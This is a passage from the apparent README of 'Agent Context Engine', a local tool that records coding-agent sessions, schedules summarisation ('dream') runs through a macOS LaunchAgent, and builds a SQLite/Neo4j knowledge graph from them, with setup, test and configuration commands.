Use `risk explain --session <session_id>` when diagnosing why a session blocked
or warned. It joins `risk_events`, `classifier_runs`, and `classifier_results`
and prints the runner, model, token estimate, duration, classifier decision,
flags, taint context, and command preview. Prefer it over manual SQLite joins
for normal agentic debugging.

Monitor risk details use normalized fields such as `categories`,
`poisoning_flags`, `deterministic_flags`, `taint_context`, `approval_line`, and
`command_ref`. Those are the supported UI/debug contract; raw `*_json` storage
columns are backend persistence details.

Harness parity:

- Codex captures prompts, assistant messages, tools, Stop events, and native
  transcript metrics.
- Cursor IDE captures prompts, assistant messages, tool/shell/MCP/file events,
  Stop events, token usage, and model metadata from hook payloads.
- Claude Code captures tool/Stop events from hooks and imports user/assistant
  turns plus token usage from its JSONL transcript as deduplicated synthetic
  events.

## Tests

Run from the target repository root:

```sh
python3 -m unittest discover -s tests -v
```

The repository check keeps heavy installation integration tests separate from
the normal unit suite:

```sh
./scripts/check --skip-runtime-db
./scripts/check --skip-runtime-db --include-install-integration-tests
```

The first command runs the standard checks and unit suite while skipping
installation/activation integration tests. The second command includes the
separate `install-integration-suite` bucket for install, activation,
LaunchAgent, wrapper, and storage-root regression coverage.

The tests use temporary memory roots and cover:

- late-event and missing-window repair for summary windows
- installation, activation, wrapper, LaunchAgent, and storage-root workflows
  in the separate install integration bucket
- hook logging, deterministic handover, deterministic dream, and context retrieval
- Claude Code transcript event import, deduplication, chronology, and metrics
- deterministic graph facts, graph patches, evidence, and schema validation
- Memory Firewall schema, CLI scans, PreToolUse blocking, classifier audit rows,
  and default retrieval filtering of quarantined Memory

## LaunchAgent

Install and load the macOS scheduler:

```sh
agent-context-engine install-launchagent --load
```

For normal restart/reload operations, use the wrapper with controlled defaults:

```sh
./scripts/restart-launchagent
```

The wrapper rewrites and loads the LaunchAgent in hybrid mode: deterministic
Dream runner, Codex graph structurer by default, 900-second interval, Neo4j sync
disabled, and graph-patch repair disabled unless overridden by flags.

Default behavior:

- Label: `com.agent-context-engine.<project-folder>`
- Interval: 900 seconds
- Command: `scheduler-run --grace-minutes 5 --runner deterministic --graph-runner codex`
- Plist: `~/Library/LaunchAgents/com.agent-context-engine.<project-folder>.plist`
- Optional local env file: `memory/local/agent-context-engine.env` (gitignored)
- Logs:
  - `memory/logs/launchagent.out.log`
  - `memory/logs/launchagent.err.log`

For multiple Agent Context Engine instances with the same folder name, choose an
explicit label and use it consistently for status and uninstall:

```sh
agent-context-engine install-launchagent --label com.agent-context-engine.client-a --load
agent-context-engine launchagent-status --label com.agent-context-engine.client-a
```

Inspect or remove it:

```sh
agent-context-engine launchagent-status --verbose
agent-context-engine scheduler-status --limit 10
agent-context-engine uninstall-launchagent
```

Stop hooks also kick a debounced background scheduler by default. The scheduler
uses a global lock, so repeated hook events only start one active worker. Disable
that behavior with `AGENT_MEMORY_AUTO_WORKER_ON_HOOK=0`; the LaunchAgent remains a
repair/fallback path.

The first completed agent turn in a session queues a fast initial dream by default:

```text
AGENT_MEMORY_INITIAL_DREAM_ON_PROMPT=1
AGENT_MEMORY_INITIAL_DREAM_RUNNER=deterministic
AGENT_MEMORY_INITIAL_DREAM_TIMEOUT=60
```

This gives new sessions a small startup assessment without blocking the hook or waiting for the
periodic LaunchAgent or full scheduler backlog. Set
`AGENT_MEMORY_INITIAL_DREAM_ON_PROMPT=0` to disable it.

The LaunchAgent writes two kinds of status:

- Human-readable process logs:
  - `memory/logs/launchagent.out.log`
  - `memory/logs/launchagent.err.log`
- Structured audit rows in SQLite:
  - `memory/status/agent-memory.sqlite3`
  - table `scheduler_runs`: one row per scheduler invocation
  - table `scheduler_steps`: one row per step (`replay-hook-queue`, `prune-logs`, `sync-transcripts`, `summarize-sessions`, `summarize-windows`, `recover-stale-dreams`, `enqueue-pending-dreams`, `dream-queue`, `neo4j-sync-pending`)

`scheduler-status` shows when the scheduler ran, whether it succeeded, the runner
configuration, pending summary/dream counts before and after the run, and per-step
count deltas.

Stop-triggered dreams are started asynchronously. By default they use:

```text
AGENT_MEMORY_STOP_DREAM_RUNNER=same-as-session
AGENT_MEMORY_STOP_DREAM_TIMEOUT=180
```

Dream runs are written to SQLite as `running` before the LLM call starts, then
updated to `succeeded` or `failed`. This makes stuck or interrupted LLM runs
visible in `dream_runs` instead of only leaving a lock directory behind.
The scheduler now also reconciles stale `dream_runs`: if a run is still marked
`running`, is older than `AGENT_MEMORY_STALE_DREAM_RUN_SECONDS` (default:
`7200`), and no active `dream-session` lock remains, Agent Context Engine marks the run
and any `dream_stage_runs` as failed and moves the owning session back to
`dream_pending` or `dreamed` based on `last_event_seq` vs.
`last_dream_event_seq`. This prevents abandoned runs from inflating
`running_dreams` forever and blocking later queue/scheduler decisions.

Codex dream runs are hardened toward a single model response:

```sh
codex exec --model <runner-model> --disable hooks --ignore-user-config --ignore-rules --ephemeral \
  --skip-git-repo-check -C <root> --sandbox read-only --json \
  --output-last-message <response> -
```

The prompt forbids tools, file inspection, file writes, and browsing. The JSON
event stream is audited; if a tool event appears, the dream output is rejected.

Dream model defaults:

```text
AGENT_MEMORY_CODEX_DREAM_MODEL=gpt-5.4-mini
AGENT_MEMORY_CLAUDE_DREAM_MODEL=claude-haiku-4-5-20251001
AGENT_MEMORY_CURSOR_DREAM_MODEL=gpt-5.4-mini-medium
```

Override per run:

```sh
agent-context-engine dream --pending --runner codex --runner-model gpt-5.4-mini
agent-context-engine dream --pending --runner cursor --runner-model sonnet-4
agent-context-engine dream --pending --runner deterministic --graph-runner codex --graph-runner-model gpt-5.4-mini
```

`dream_runs.runner_model` records the exact model. If a smaller model fails due
to context length or quality, rerun the same session with a larger
`--runner-model`.

## Graph Artifacts

The graph layer is Markdown/SQLite-first and Neo4j-optional. It writes parseable
JSON artifacts that can later be imported into Neo4j.

```sh
agent-context-engine graph-extract <session>
agent-context-engine graph-structure <session>
agent-context-engine graph-structure <session> --runner same-as-session
agent-context-engine graph-status --limit 10
agent-context-engine graph-validate memory/graph/patches/<patch>.json
agent-context-engine graph-query sessions --limit 10
agent-context-engine graph-query entities "Neo4j"
agent-context-engine graph-query entity "agent-memory"
agent-context-engine graph-query related "019e1696"
agent-context-engine graph-schema-context --format json
agent-context-engine graph-candidates memory/graph/patches/<patch>.json
agent-context-engine graph-match-candidates memory/graph/candidates/<candidates>.json
agent-context-engine graph-reconcile memory/graph/candidates/<candidates>.json --matches memory/graph/matches/<matches>.json
agent-context-engine handover "agent-memory"
agent-context-engine use "agent-memory"
agent-context-engine neo4j-import memory/graph/patches/<patch>.json --dry-run
agent-context-engine rebuild-indexes
```

Use `handover` or `use` as the default agentic continuation command. It prints
the resolved session, project workdir, freshness status, summary/dream artifacts,
metrics, recent timeline, recent tools, and explicit instructions for continuing
inside the current `codex-ace` chat.

Outputs:

```text
memory/graph/facts/*.json
memory/graph/patches/*.json
memory/graph/llm-runs/<dream_run_id>/*
memory/graph/candidates/*.json
memory/graph/matches/*.json
memory/graph/reconciled/*.json
```

`search` and `handover`/`use` read from the SQLite chunk index
(`memory_documents`, `memory_chunks`, `memory_chunks_fts`). `graph-query` reads
from materialized SQLite graph tables (`graph_entities`, `graph_relations`,
`graph_evidence`) instead of loading every JSON patch. JSON files remain the
portable audit artifacts; SQLite is the fast local retrieval layer.

Processed graph artifacts can be pruned after their knowledge has been
materialized into SQLite. The command defaults to a dry run and protects patch
files that are still pending for Neo4j import:

```sh
agent-context-engine graph-prune
agent-context-engine graph-prune --archive memory/graph-artifacts.tar.gz
agent-context-engine graph-prune --archive memory/graph-artifacts.tar.gz --delete
agent-context-engine graph-prune --delete --include-pending-neo4j
```

Pruning removes portable JSON audit/reimport files, not the SQLite graph rows
used by `graph-query` and retrieval.

Every entity and relation must include evidence such as session ID, event
sequence, source field, and a short quote. After every successful Markdown dream,
`agent-memory` runs a second graph-structuring phase with the same runner and
model as the dream (`codex`, `claude`, or `cursor`). The LLM receives only the
deterministic facts patch, dream markdown, schema context, and compact existing
entity context. It must return one valid JSON patch. That patch is merged with
the deterministic facts before validation, so base session/project/tool facts
survive even when the LLM only adds semantic entities. The patch also carries
`insights.intent`, `insights.helpful_score`, and `insights.tags`; these are stored
in SQLite on `dream_runs` and `graph_artifacts`, and represented in the graph as
an intent `Concept` linked from the `DreamRun`. If JSON parsing or schema
validation fails, a valid deterministic fallback patch is written and the error
is recorded in the patch and graph artifact metadata. Database import remains
deterministic code.

Existing entities are not dumped wholesale into the LLM prompt. The graph phase
builds query terms from the deterministic facts and dream text, scores local
entity candidates with fuzzy matching, and injects only the top matches.

For the scheduler / LaunchAgent path, prefer the restart wrapper. It intentionally
installs only the hybrid mode: deterministic Dream processing plus LLM graph
structuring.

```sh
./scripts/restart-launchagent --graph-runner codex
./scripts/restart-launchagent --graph-runner claude --graph-runner-model claude-haiku-4-5-20251001
```

The wrapper rejects non-deterministic Dream runners. Use `--graph-runner` to
choose where semantic entity and relation extraction happens.

Before importing inferred graph data, run the candidate pipeline. It injects the
allowed schema, searches similar existing entities locally and optionally in
Neo4j, then writes a reconciled patch that reuses matching entity keys.

Optional Neo4j import uses the HTTP transaction API and does not require the
Python Neo4j driver:

```sh
export AGENT_MEMORY_NEO4J_PASSWORD='...'
agent-context-engine neo4j-status --uri http://127.0.0.1:7474 --database agenticMemory
agent-context-engine neo4j-install-schema --uri http://127.0.0.1:7474 --database agenticMemory
agent-context-engine neo4j-import memory/graph/patches/<patch>.json --uri http://127.0.0.1:7474 --database agenticMemory
agent-context-engine neo4j-sync-pending --uri http://127.0.0.1:7474 --database agenticMemory
agent-context-engine neo4j-import-status --uri http://127.0.0.1:7474 --database agenticMemory
```

Do not store Neo4j passwords in repository files.

For LaunchAgent-based sync, put local credentials in
`memory/local/agent-context-engine.env` and reinstall/reload the LaunchAgent:

```text
AGENT_MEMORY_NEO4J_URI=http://127.0.0.1:7474
AGENT_MEMORY_NEO4J_DATABASE=agenticMemory
AGENT_MEMORY_NEO4J_USER=neo4j
AGENT_MEMORY_NEO4J_PASSWORD=...
```

```sh
agent-context-engine install-launchagent --load
```

`dream` and `scheduler-run` automatically try Neo4j sync after writing a graph
patch when `AGENT_MEMORY_NEO4J_PASSWORD` is set. Without that environment
variable, Neo4j sync is skipped and patches remain visible via
`neo4j-import-status` / `neo4j-sync-pending`.

Neo4j Desktop notes:

- Use `http://127.0.0.1:7474` for the HTTP importer.
- Use `neo4j://localhost:7687` for `cypher-shell` or Bolt clients.
- Do not use `neo4j://localhost:7474`; that port is HTTP, not Bolt.
- Neo4j may display database names in lowercase (`agenticmemory`), while the
  importer also works with `agenticMemory`.
- If a user login fails, check the active DBMS with `SHOW USERS`; Neo4j Desktop
  can keep multiple DBMS directories, and users are local to the running DBMS.

## Implementation Layout

```text
scripts/agent_context_engine.py
scripts/agent-context-engine
backend/src/agent_context_engine/interfaces/cli/main.py
backend/src/agent_context_engine/interfaces/hooks/main.py
backend/src/agent_context_engine/interfaces/http/server.py
backend/src/agent_context_engine/interfaces/http/html.py
backend/src/agent_context_engine/infrastructure/config.py
backend/src/agent_context_engine/infrastructure/db.py
backend/src/agent_context_engine/infrastructure/locks.py
backend/src/agent_context_engine/application/dream.py
backend/src/agent_context_engine/application/dreaming/
backend/src/agent_context_engine/application/graph/
backend/src/agent_context_engine/application/graphing/
backend/src/agent_context_engine/application/monitoring/
backend/src/agent_context_engine/adapters/runners/
backend/src/agent_context_engine/adapters/sqlite/
backend/src/agent_context_engine/adapters/neo4j/sync.py
contracts/openapi.yaml
frontend/src/shared/api/generated/types.ts
```
